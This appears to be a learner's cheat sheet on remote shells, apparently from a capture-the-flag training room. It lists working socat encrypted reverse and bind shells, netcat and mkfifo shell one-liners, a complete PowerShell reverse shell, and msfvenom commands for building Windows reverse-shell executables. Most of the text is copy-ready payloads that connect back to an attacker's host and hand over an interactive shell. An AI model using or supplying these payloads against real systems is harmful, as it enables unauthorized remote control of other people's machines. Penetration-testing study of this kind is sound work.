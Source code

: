 reverse shell
- ``` socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0 ``` setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem".
- ``` verify=0 ``` tells the connection to not bother trying to validate.
- certificate must be used on whichever device is listening.
- ``` socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash ``` connect back
- ``` socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane ``` your IP is 10.10.10.5, the syntax to connect back to this listener.
- ![image](https://user-images.githubusercontent.com/91292763/148321654-ead239c7-fddb-4667-9b3b-236cdddd2ed5.png)

Bind shell
- ``` socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes ``` target.
- ``` socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - ``` attacker.

**Common Shell Payloads**
- ``` nc -lvnp <PORT> -e /bin/bash ``` bind shell on the target
- ``` nc <LOCAL-IP> <PORT> -e /bin/bash ``` reverse shell, connect back

create a listener for a bind shell:
- ``` mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f ```
- creates a named pipe at /tmp/f
- connects the input of the listener to the output of the named pipe.
- output of the netcat listener (i.e. the commands we send) then gets piped directly into sh.
- ![image](https://user-images.githubusercontent.com/91292763/148352081-fc3d5f98-82f0-45be-ae98-57bbc046373b.png)


nc reverse shell:
- ``` mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f ```
- ![image](https://user-images.githubusercontent.com/91292763/148352066-1f3bf559-2062-4933-b9f0-84ce613499c1.png)

reverse power shell on Windows:
- ``` powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" ```

**Other reverse shell:**
- PayloadsAllTheThings
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

**msfvenom**
standard 
- ``` msfvenom -p <PAYLOAD> <OPTIONS> ```

Windows x64 Reverse Shell
- ```` msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port> ```
- -f: format
- -o: output
